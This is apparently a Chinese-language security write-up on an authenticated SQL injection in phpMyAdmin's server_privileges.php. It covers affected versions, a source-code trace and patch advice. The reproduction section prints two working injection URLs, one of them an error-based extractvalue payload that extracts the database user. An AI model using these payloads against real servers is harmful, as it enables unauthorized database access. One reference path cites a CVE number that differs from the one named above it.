






**0x01 简介**

phpMyAdmin 是一个以PHP为基础，以Web-Base方式架构在网站主机上的MySQL的数据库管理工具，让管理者可用Web接口管理MySQL数据库。借由此Web接口可以成为一个简易方式输入繁杂SQL语法的较佳途径，尤其要处理大量资料的汇入及汇出更为方便。

**0x02 漏洞概述**

用户界面SQL执行语句存在可控变量，且未对可控参数进行过滤直接拼接。可造成低权限用户越权执行SQL指令。

**0x03 影响版本**

**前提：已知一个用户名密码**

phpMyAdmin 4 < 4.9.4

phpMyAdmin 5 < 5.0.1

**0x04 漏洞复现**

简单总结流程：

页面位置server_privileges.php；

设置变量ajax_requests为true；

设置变量validate_username 为真值；

设置变量username 为我们拼接的注入语句。


构造payload：

- 

```
http://192.168.209.139:8001/server_privileges.php?ajax_requests=true&validate_username=1&username=1%27or%201=1%20--+db=&token=c2064a8c5f437da931fa01de5aec6581&viewing_mode=server
```


（token和其余参数会在访问页面的时候自动提供）

我们查看后端收到的数据，可以看到SQL已经成功拼接。



执行完毕后程序只会告知SQL是否执行成功，失败会报错，因此此处我们可以利用报错注入。

构造payload：

- 

```
http://192.168.209.139:8001/server_privileges.php?ajax_request=true&validate_username=1&username=1%27and%20extractvalue(1,concat(0x7e,(select%20user()),0x7e))--+db=&token=c2064a8c5f437da931fa01de5aec6581&viewing_mode=server
```

结果如下，可以看到已经成功执行了我们注入的指令。  

  

**0x05 漏洞分析**

定位到文件libraries/server_privileges.lib.php，此处就是SQL注入存在点，username和validate_username都可控,我们往上回溯定位if所在的函数。

 

可以看到if处于PMA_getExtraDataForAjaxBehavior函数内。下一步使用phpsotorm快捷键ctrl+B定位到触发此函数的点。

 

跳转到文件server_privileges.php可以看到$extra_data触发了此函数，处于一个if内，下一步快捷键ctrl+shift+F全局搜索变量is_ajax_request，看看是否可控让其为真值。

 

跳转到文件libraries/common.inc.php这里有可控变量ajax_request只要给它附true就可以返回true了。

 

**0x06 修复方式**

更新官方最新补丁

**参考链接：**

https://nvd.nist.gov/vuln/detail/CVE-2020-5504

https://github.com/mai-lang-chai/Middleware-Vulnerability-detection/tree/master/phpMyadmin/CVE-2020-0554